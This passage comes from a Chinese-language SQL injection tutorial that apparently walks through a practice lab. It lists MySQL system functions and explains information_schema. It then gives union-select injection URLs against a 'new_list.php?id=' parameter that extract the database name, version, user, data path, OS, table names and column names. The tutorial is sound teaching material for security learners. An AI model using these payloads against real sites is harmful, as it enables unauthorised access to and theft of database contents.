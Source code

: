 系统函数如下：

```
数据库名：database()
数据库版本：version()
数据库用户名：user()
数据库路径：@@datadir
操作系统版本：@@version_compile_os
```

###### -实例-

```
使网页返回数据库名、数据库版本
http://124.70.22.208:46802/new_list.php?id=-1%20union select 1,database(),version(),4

使网页返回数据库用户名、数据库路径
http://124.70.22.208:46802/new_list.php?id=-1%20union select 1,user(),@@datadir,4

使网页返回操作系统版本
http://124.70.22.208:46802/new_list.php?id=-1%20union select 1,@@version_compile_os,3,4
```

## 九、版本探测的意义

在MYsQL5.0以上版本中，Mysql 有一个系统数据库“information_schema“。

它是一个存储记录有所有数据库名、表名、列名的数据库，相当于利用该表可以进行一次完整的注入，通过查询它获取指定数据库下面的表名、列名，进而帮助获取到具体的数据信息。

```
数据库中符号“ . ”代表下一级。
如：“diyi.dier”表示diyi数据库下的dier表。

information_schema数据库下面记录所有数据库名信息的表：information_schema.schemata
information_schema数据库下面记录所有表名信息的表：information_schema.tables
information_schema数据库下面记录所有列名信息的表：information_schema.columns

表名：table_name
列名：column_name
数据库名：table_schema
```

###### -实例-

```
查询指定数据库名“mozhe_Discuz_StormGroup”下的表名信息
http://124.70.22.208:46802/new_list.php?id=-1 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='mozhe_Discuz_StormGroup'
```

```
通过上述操作得到了据库“mozhe_Discuz_StormGroup”下的表名信息，接下来进一步查询列名信息：

查询指定表名“StormGroup_member”下的列名信息
http://124.70.22.208:46802/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='StormGroup_member'
    
查询指定表名“notice”下的列名信息
http://124.70.22.208:46802/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='notice'
```
